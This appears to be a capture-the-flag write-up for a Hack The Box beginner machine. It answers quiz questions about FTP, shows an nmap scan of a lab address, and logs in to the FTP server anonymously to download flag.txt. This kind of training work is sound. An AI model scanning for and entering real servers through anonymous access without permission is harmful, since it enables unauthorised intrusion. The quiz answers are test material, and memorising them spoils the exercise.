 # Task 1
What does the 3-letter acronym FTP stand for? File Transfer Protocol 

# Task 2
What communication model does FTP use, architecturally speaking? client-server model

https://networkencyclopedia.com/file-transfer-protocol-ftp/

#  Task 3
What is the name of one popular GUI FTP program? Filezilla

# Task 4
Which port is the FTP service active on usually? 21 tcp

```bash
┌──(defalt@kali)-[~/Documents/htb/starting point /tier 1]
└─$ nmap -sC -sV 10.129.104.223 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 00:50 PDT
Nmap scan report for 10.129.104.223
Host is up (0.18s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.49
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.99 seconds
``` 

#  Task 5
What acronym is used for the secure version of FTP? SFTP (secure file transfer protocol)

#  Task 6
What is the command we can use to test our connection to the target? Ping

#  Task 7
From your scans, what version is FTP running on the target? vsftpd 3.0.3

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
```
#  Task 8
From your scans, what OS type is running on the target? Unix
```bash
Service Info: OS: Unix
```
#  Submit Flag
Submit root flag 
```bash
┌──(defalt@kali)-[~/Documents/htb/starting point /tier 1]
└─$ ftp 10.129.104.223
Connected to 10.129.104.223.
220 (vsFTPd 3.0.3)
Name (10.129.104.223:defalt): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||8784|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||26404|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************************************************************************************************************|    32       14.95 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.17 KiB/s)
ftp> exit
221 Goodbye.
```
